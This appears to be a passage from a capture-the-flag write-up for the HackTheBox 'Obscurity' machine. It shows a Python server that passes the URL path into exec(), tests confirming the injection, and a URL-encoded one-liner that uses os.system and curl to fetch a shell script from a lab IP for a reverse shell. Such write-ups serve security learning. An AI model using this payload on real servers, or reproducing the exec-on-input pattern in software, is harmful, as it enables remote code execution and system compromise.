 ```python
            with open(errorPage, "r") as f:
                data = f.read()
            status = "500"
        return {"body": data, "mime": mime, "status": status}
```

Within that whole code chunk, there's one part that stands out:

```python
def serveDoc(self, path, docRoot):
        path = urllib.parse.unquote(path)
        try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
```

The `path` variable is not sanitised and passed diretly to the `exec` function, allowing for RCE. We can test this with some `'` characters:

```
>>> path = "/index.html'"
>>> exec(info.format(path))
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "<string>", line 1
    output = 'Document: /index.html''
```

Since this is Python, we can use `;` to chain commands together.

```
>>> path = "/index.html';hello;'"
>>> exec(info.format(path))
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "<string>", line 1, in <module>
NameError: name 'hello' is not defined. Did you mean: 'help'?
```

Since the `hello` is being processed and gives us that specific error, it means we have command injection! Using this one-liner, we can get a reverse shell:

```python
';os.system%28%27curl%2010.10.14.51%2Fshell.sh%7Ccurl%27%29;'
```

![](../../../.gitbook/assets/htb-obscurity-image-3.png)
